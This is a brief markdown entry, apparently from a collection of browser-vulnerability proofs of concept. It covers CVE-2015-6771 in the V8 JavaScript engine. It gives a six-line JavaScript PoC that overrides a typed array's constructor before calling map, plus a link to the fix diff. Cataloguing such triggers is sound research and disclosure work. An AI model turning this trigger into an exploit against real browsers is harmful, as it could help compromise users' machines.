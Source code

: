 # CVE-2015-6771

- Date: Dec 2015
- Credit: ??

## PoC

```javascript
var typedArray = new Int8Array(1);
var saved;
var called;
typedArray.constructor = function(x) { called = true; saved = x };
typedArray.constructor.prototype = Int8Array.prototype;
typedArray.map(function(){});
```

## Reference

- [Diff](https://chromium.googlesource.com/v8/v8/+/c227dd5734efa41e4973c834c910bb684a9e1998%5E%21/#F1)
